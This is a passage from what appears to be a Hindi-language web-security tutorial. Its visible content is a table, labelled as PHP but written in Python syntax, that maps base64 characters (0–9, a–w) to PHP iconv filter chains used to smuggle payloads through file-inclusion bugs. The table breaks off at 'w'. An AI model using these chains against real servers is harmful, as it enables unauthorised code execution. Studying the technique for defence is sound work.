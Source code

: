 पिछला स्क्रिप्ट उस पेलोड के लिए आवश्यक base64 वर्णों तक सीमित है। इसलिए, मैंने **सभी base64 वर्णों को ब्रूटफोर्स करने** के लिए अपना खुद का स्क्रिप्ट बनाया:
```php
conversions = {
'0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
'1': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.OSF1002035D.EUC-KR|convert.iconv.MAC-CYRILLIC.T.61-8BIT|convert.iconv.1046.CSIBM864|convert.iconv.OSF1002035E.UCS-4BE|convert.iconv.EBCDIC-INT1.IBM943',
'2': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO6937.OSF1002011C|convert.iconv.CP1146.EUCJP-OPEN|convert.iconv.IBM1157.UTF8',
'3': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-7.CSISOLATIN3|convert.iconv.ISO-8859-9.CP905|convert.iconv.IBM1112.CSPC858MULTILINGUAL|convert.iconv.EBCDIC-CP-NL.ISO-10646',
'4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
'5': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.RUSCII.IBM275|convert.iconv.CSEBCDICFR.CP857|convert.iconv.EBCDIC-CP-WT.ISO88591',
'6': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-37.MACUK|convert.iconv.CSIBM297.ISO-IR-203',
'7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
'8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
'9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
'a': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSIBM9066.CP1371|convert.iconv.KOI8-RU.OSF00010101|convert.iconv.EBCDIC-CP-FR.ISO-IR-156',
'b': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1399.UCS4',
'c': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.8859_9.OSF100201F4|convert.iconv.IBM1112.CP1004|convert.iconv.OSF00010007.CP285|convert.iconv.IBM-1141.OSF10020402',
'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
'e': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.SHIFT_JISX0213|convert.iconv.IBM1164.UCS-4',
'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
'g': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022CN.CP855|convert.iconv.CSISO49INIS.IBM1142',
'h': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.THAI8.OSF100201B5|convert.iconv.NS_4551-1.CP1160|convert.iconv.CP275.IBM297',
'i': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM943|convert.iconv.CUBA.CSIBM1140',
'j': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.UCS-4BE|convert.iconv.IBM857.OSF1002011C',
'k': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO88594.CP912|convert.iconv.ISO-IR-121.CP1122|convert.iconv.IBM420.UTF-32LE|convert.iconv.OSF100201B5.IBM-1399',
'l': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO90.MACIS|convert.iconv.CSIBM865.10646-1:1993|convert.iconv.ISO_69372.CSEBCDICATDEA',
'm': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.CSSHIFTJIS|convert.iconv.NO2.CSIBM1399',
'n': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM862|convert.iconv.CP860.IBM-1399',
'o': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-6.CP861|convert.iconv.904.UTF-16|convert.iconv.IBM-1122.IBM1390',
'p': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1125.IBM1146|convert.iconv.IBM284.ISO_8859-16|convert.iconv.ISO-IR-143.IBM-933',
'q': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.NC_NC00-10:81.CSIBM863|convert.iconv.CP297.UTF16BE',
'r': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-86.ISO_8859-4:1988|convert.iconv.TURKISH8.CP1149',
's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
't': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.WINDOWS-1251.CP1364|convert.iconv.IBM880.IBM-1146|convert.iconv.IBM-935.CP037|convert.iconv.IBM500.L3|convert.iconv.CP282.TS-5881',
'u': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_6937:1992.ISO-IR-121|convert.iconv.ISO_8859-7:1987.ANSI_X3.110|convert.iconv.CSIBM1158.UTF16BE',
'v': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.HU.ISO_6937:1992|convert.iconv.CSIBM863.IBM284',
'w': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO_6937-2:1983.857|convert.iconv.8859_3.EBCDIC-CP-FR',
```